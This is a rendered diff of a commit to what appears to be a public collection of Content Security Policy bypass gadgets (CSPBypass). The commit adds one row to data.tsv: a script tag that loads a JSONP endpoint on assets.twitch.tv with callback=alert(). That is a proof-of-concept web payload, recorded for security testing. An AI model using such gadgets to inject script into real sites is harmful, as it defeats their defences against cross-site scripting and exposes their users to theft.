

Before and after one commit to rcbarnett/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Updated data.tsv with assets.twitch.tv callback endpoint

```diff
--- a/data.tsv
+++ b/data.tsv
+row 47: assets.twitch.tv <script src="https://assets.twitch.tv/eppo/api/flag-config/v1/config?sdkName=js-sdk-client&sdkVersion=3.1.2&apiKey=3mv-BKCSZJDyZrwfqK86har6u13NgxRh.ZWg9bTRsZHJnLmUuZXBwby5jbG91ZCZjcz1tNGxkcmc&callback=alert()">
```
